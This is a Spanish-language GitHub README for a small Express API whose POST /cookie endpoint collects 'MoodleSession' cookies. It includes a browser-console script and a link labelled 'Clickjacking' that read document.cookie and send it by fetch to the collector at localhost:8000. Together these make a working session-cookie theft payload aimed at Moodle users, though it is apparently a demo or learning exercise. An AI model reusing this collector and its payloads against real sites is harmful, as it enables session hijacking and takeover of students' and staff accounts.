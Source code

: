 # Proyecto API con Express

## Descripción

Este proyecto es una API simple creada con Express que permite recibir cookies desde el cliente. Utiliza CORS para permitir solicitudes desde diferentes orígenes y dotenv para gestionar variables de entorno.

## Características

- Endpoint GET para verificar que la API está funcionando.
- Endpoint POST para recibir una cookie (MoodleSession) y enviar una respuesta de éxito.

## Instalación

1. Clona el repositorio.
2. Navega al directorio del proyecto.
3. Ejecuta `npm install` para instalar las dependencias.
4. Configura las variables de entorno en un archivo `.env`.
5. Inicia el servidor con `node index.js` o `npm start`.

## Uso

- **GET /**: Devuelve un mensaje indicando que la API está funcionando.
- **POST /cookie**: Envía un JSON con la cookie `MoodleSession` y recibe una respuesta de éxito.

## Ejemplo de uso desde el navegador

Puedes probar la API utilizando el siguiente script en la consola del navegador:

```javascript
const getCookies = () => {
  return document.cookie.split(";");
};

fetch("http://localhost:8000/cookie", {
  method: "POST",
  headers: {
    "Content-Type": "application/json",
  },
  body: JSON.stringify({ MoodleSession: getCookies() }),
});
```

## También puedes probar la API utilizando curl
```bash
curl -X POST http://localhost:8000/cookie -H "Content-Type: application/json" -d "{\"MoodleSession\":\"Cookie de ejemplo\"}"
```

## Clickjacking
<a href="javascript:eval('fetch(\'http://localhost:8000/cookie\', { method: \'POST\', headers: { \'Content-Type\': \'application/json\' }, body: JSON.stringify({ MoodleSession: document.cookie}) });')">Click aquí</a>

## Autor

**Iván L. Álvarez**  
- GitHub: [ivanlalvarez22](https://github.com/ivanlalvarez22)  
- Portafolio: [ivanalvarez-contacto.vercel.app](https://ivanalvarez-contacto.vercel.app/)
